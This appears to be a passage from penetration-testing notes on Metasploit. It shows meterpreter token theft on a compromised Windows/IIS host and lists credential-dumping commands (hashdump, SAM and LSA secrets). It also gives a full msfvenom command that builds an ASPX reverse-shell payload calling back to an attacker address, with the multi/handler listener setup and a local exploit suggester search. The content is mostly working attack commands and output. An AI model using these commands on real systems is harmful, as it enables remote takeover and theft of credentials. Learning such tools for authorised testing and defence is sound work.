 ```console
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe

meterpreter > steal 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE


meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```

We can easily set to background a session, use another exploit (like `search local_exploit_suggester`), set the previous session and run it.

Another commands could be `hashdump` (which gives all the hashes from the system), `lsa_dump_sam` (to get the SAM file), `lsa_dump_secrets` (to get the SYSTEM file), 

---

# Other 

## msfvenom 


This is an example of a payload generated:
```console
zero@pio$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f aspx > reverse_shell.aspx
```

Then, we need to start listening:
```console
msf6 > use multi/handler
msf6 exploit(multi/handler) > set LHOST <ip> 
msf6 exploit(multi/handler) > set LPORT <port>
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on <ip>:<port>
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-p` | Select the payload   |
| `-e` | Encode |
| `-i` | Encode X times |
| `-f` | Extensions (linux: elf, win: exe) |


## Local Exploit Suggester 

Helps identifying the exploit:
```console
msf6 > search local exploit suggester
```

